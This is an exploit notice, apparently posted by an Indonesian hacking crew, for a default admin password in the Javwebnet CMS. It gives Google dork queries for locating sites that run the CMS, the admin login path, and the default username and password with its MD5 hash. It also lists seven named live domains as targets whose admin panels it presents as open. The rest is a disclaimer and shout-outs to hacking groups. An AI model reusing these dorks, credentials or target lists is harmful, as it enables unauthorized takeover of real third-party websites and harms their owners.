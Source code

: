 # Javwebnet-CMS-Default-Password-Vulnerability

* Google Dork
> intext:"web design by javwebnet"
> inurl:"admin/chace.php"
> intitle:"Explore Your Brain ! \m/ Google sek ngaceng!"
+ Date                 : 05/01/2014
+ Exploit Author       : BarrabravaZ
+ Vendor Homepage      : http://www.javwebnet.com/
+ Version              : 1.0
+ Tested on            : Windows, Linux
+ Surabaya Blackhat "Learn to be Better"
+ 
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
«««:»»»          Author will be not responsible for any damage.          «««:»»»
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
x
x Issue: 
x Default Password Admin
x 
x Risk level: High
x ~ The remote attacker has the possibility to manage the website. ~
x ~ The remote attacker is able to login into website with access level as admin. ~
x 
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

[!]###########################################################################[!]
##
## Proof Of Concept:
## http://127.0.0.1/admin/
##
## Username : admin
## Password : 17t17n25a (md5: 3445c774b86384665a5315b30f8a6735)
##
## Cro0t ##
## http://www.nomorsejagad.com/admin
## http://www.decalartworks.com/admin
## http://www.perdanajakarta.com/admin
## http://www.bangkitperdana.com/admin
## http://www.kecapborobudur.com/admin
## http://www.maulidaperdana.com/admin
## http://www.istanabajutidur.com/admin
##
[!]###########################################################################[!]

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[ Thx TO ]
[+] Meninbox wong ganteng unyu2 :D 
[+] Katon --> Was here
[+] Zeeattacker aku njal0k oleh2 teko bangkok yo cok :v
[+] Bagfreakz aKa paijo painem hahaha
[+] Gandrunx --> master koding ,ajarin doong kakak..
[+] Ch0c0 terhumanisasi
[+] MyWisdom kakak paling cakep :*
[+] Array --> Mboh wong iki geje nick'e array wkwkwk
[+] Surabayag3tar guruku ('/\')
[+] Mr. DC bang jali :D
[+] Dem1t,Bejat,Morgue,OmJin..
[+] Siti Jubaidah,X'inject,R1O,Angel DOt ID...
[+] Haxor HuSsY, Hax0r W0w, Leet Hax0r,Kami Hax0r...
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[++] SurabayaBlackhat [++] Madleets [++] IFC [++] Hiddenc0de [++] devilzc0de [++]
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx